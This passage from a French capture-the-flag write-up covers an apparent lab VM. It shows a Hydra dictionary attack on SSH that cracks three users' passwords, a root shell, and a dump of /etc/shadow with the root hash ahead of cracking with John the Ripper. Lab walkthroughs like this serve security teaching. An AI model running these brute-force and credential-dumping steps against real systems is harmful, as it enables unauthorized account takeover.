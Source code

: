 ```console
  <open-on-startup>False</open-on-startup>
</note>

[amy@localhost ~]$ su -
Password: 
[root@localhost ~]# 
```

[« À vous le compte root ! C'est gagné ! Grâce à monsieur Patrick, vous êtes un winner ! »](https://fr.wikipedia.org/wiki/22_minutes_chrono)

### Attaque par dictionnaire avec Hydra sur SSH, partie 2

Il s'agit de la même attaque, mais avec [le dictionnaire de John The Ripper](http://openwall.com/john/) cette fois-ci.

Au bout d'une heure et demie, les résultats sont bien plus probants : les mots de passe de Patrick et de Jennifer ont été trouvés.

```console
root@blinils:~# hydra -L usersCTF5.txt -P /usr/share/dict/john.txt 192.168.56.101 ssh -t 10
--snip--
[DATA] max 10 tasks per 1 server, overall 10 tasks, 15535 login tries (l:5/p:3107), ~1554 tries per task
[DATA] attacking ssh://192.168.56.101:22/
[22][ssh] host: 192.168.56.101   login: amy   password: dolphins
[22][ssh] host: 192.168.56.101   login: patrick   password: ne1410s
[STATUS] 166.83 tries/min, 14848 tries in 01:29h, 687 to do in 00:05h, 10 active
[22][ssh] host: 192.168.56.101   login: jennifer   password: homebrew
1 of 1 target successfully completed, 3 valid passwords found
```

### Attaque par dictionnaire avec John The Ripper sur le fichier /etc/shadow

En parallèle de l'attaque avec Hydra, les investigations continuent avec le compte root. Le fichier /etc/shadow est particulièrement intéressant, car 
[il contient les mots de passe hashés de chaque compte Unix](https://fr.wikipedia.org/wiki/Passwd), ainsi que la date de la dernière modification du mot de passe ou encore la date d'expiration des comptes.
L'outil John The Ripper est en mesure de [cracker les mots de passe Unix](https://korben.info/comment-cracker-un-mot-de-passe-sous-linux.html) si on lui fournit les fichiers /etc/passwd et /etc/shadow, comme suit...

```console
[root@localhost ~]# cat /etc/shadow
root:$1$7ailm4aT$4HlsZaiGztAsgj4JXL92Y.:14362:0:99999:7:::
bin:*:14362:0:99999:7:::
daemon:*:14362:0:99999:7:::
adm:*:14362:0:99999:7:::
lp:*:14362:0:99999:7:::
sync:*:14362:0:99999:7:::
shutdown:*:14362:0:99999:7:::
halt:*:14362:0:99999:7:::
mail:*:14362:0:99999:7:::
news:*:14362:0:99999:7:::
uucp:*:14362:0:99999:7:::
operator:*:14362:0:99999:7:::
games:*:14362:0:99999:7:::
gopher:*:14362:0:99999:7:::
ftp:*:14362:0:99999:7:::
nobody:*:14362:0:99999:7:::
vcsa:!!:14362:0:99999:7:::
rpc:!!:14362:0:99999:7:::
nscd:!!:14362:0:99999:7:::
tcpdump:!!:14362:0:99999:7:::
```